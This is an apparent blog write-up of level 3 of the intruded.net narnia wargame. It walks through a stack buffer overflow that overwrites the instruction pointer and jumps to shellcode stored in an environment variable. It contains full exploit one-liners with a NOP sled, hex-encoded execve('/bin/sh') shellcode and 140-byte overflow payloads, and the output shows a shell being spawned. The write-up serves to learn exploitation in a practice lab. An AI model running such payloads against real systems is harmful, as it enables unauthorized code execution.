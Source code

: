 Title: intruded.net, narnia: level 3
Date: 2011/09/20 22:58
Tags: shellcode, intruded.net, narnia, x86
Author: Ken Ko

This time, we have something to do with a printf(). Thinking about this all day, I thought it would be a format string attack--alas, I was mistaken. Let's try the following:

[codebox 1]

After we get a segfault, you'll notice the %eip is strange:

[codebox 2]

Recall that the %eip is a 32-bit instruction pointer--we just set the next instruction to be run as 0x44444343. So, how does this help us? Clearly, we'll want to take advantage of this discovery to either get a shell or cat the .passwd file. 

Let's use what we have from level 2 and try to execute an environment variable. First, we'll need the address of the variable, EGG, because we like to reuse old names; creativity, and all.

[codebox 3]

Now, we just have to run the binary (/tmp/a.out, in my case--laziness) to find the address of EGG. Let's use the old shellcode of pause(), because it's easy to type out.

<code>
level3@narnia:/tmp$ export EGG=`python -c 'print "\x90" * 14 + "\x31\xc0\xb0\x1d\xcd\x80"'` && ./a.out
0xbffffc41
level3@narnia:/tmp$ /wargame/level3 `python -c 'print "A" * 140 + "\x41\xfc\xff\xbf"'`
</code>

Not sure why, yet, but 14 NOPs were needed for this to not crash down on me. Something else to add to my todo list, I suppose. Anyhow, let's replace the pause() for an execve()

<code>
level3@narnia:/tmp$ export EGG=`python -c 'print "\x90" * 16 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42"'` && ./a.out
0xbffffc08
level3@narnia:/tmp$ /wargame/level3 `python -c 'print "A" * 140 + "\x08\xfc\xff\xbf"'`
sh-3.1$ 
</code>

This time, 16 NOPs were needed. Why? <em>No</em> idea. 
At all.

Need to take a gander at the source once more, tomorrow evening.
